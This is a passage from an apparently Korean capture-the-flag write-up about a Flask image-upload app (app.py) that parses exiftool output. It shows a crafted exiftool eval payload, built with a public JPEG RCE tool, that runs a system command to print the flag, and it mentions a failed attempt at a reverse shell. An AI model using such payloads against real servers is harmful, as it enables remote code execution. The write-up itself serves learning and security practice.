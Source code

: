 ```python
                    except:
                        thumbnail = b'None'

                with exiftool.ExifToolHelper() as et:
                    metadata = et.get_metadata(["tmp/"+tmpFileName])[0]
            else:
                raise FileNotAllowed(file.filename.rsplit('.',1)[1])

        os.remove("tmp/"+tmpFileName)
        return render_template(
            'uploaded.html.j2', tags=metadata, image=_encfile.decode() , thumbnail=thumbnail.decode()), 200
    except FileNotAllowed as e:
        return jsonify({
                "error": APIError("FileNotAllowed Error Occur", str(e)).__dict__,
        }), 400
    except ExifToolJSONInvalidError as e:
        os.remove("tmp/"+tmpFileName)
        data = e.stdout
        reg = re.findall('\[(.*?)\]',data, re.S )[0]
        metadata = ast.literal_eval(reg) ## literal_eval
        if 0 != len(metadata):
            return render_template(
            'uploaded.html.j2', tags=metadata, image=_encfile.decode() , thumbnail=thumbnail.decode()), 200
        else:
            return jsonify({
                "error": APIError("ExifToolJSONInvalidError Error Occur", str(e)).__dict__,
        }), 400
    except ExifToolException as e:
        os.remove("tmp/"+tmpFileName)
        return jsonify({
                "error": APIError("ExifToolException Error Occur", str(e)).__dict__,
        }), 400
    except IndexError as e:
        return jsonify({
                "error": APIError("File extension could not found.", str(e)).__dict__,
        }), 400
    except Exception as e:
        os.remove("tmp/"+tmpFileName)
        return jsonify({
                "error": APIError("Unknown Error Occur", str(e)).__dict__,
        }), 400
```
{: file="app.py"}
<br/>

깃허브의 [RCE 툴](https://github.com/OneSecCyber/JPEG_RCE)을 이용하여 다음과 같은 페이로드를 구성하여 결괏값을 볼 수 있습니다. 뭐 여기서 `RCE가 가능한데 리버스쉘 연결하면 되지않냐`라고 물으신다면 저 역시 시도는 해봤지만 전혀 되지 않았습니다. 그러면 아래처럼 연속된 `escape` 때문에 고생할 일도 없을텐데 말이죠.
```shell
exiftool -config eval.config runme.jpg -eval="system('echo [{\\\"a\\\":\\\"\$FLAG\\\"}]')"
```
{: file="Make RCE Payload"}
<br/>
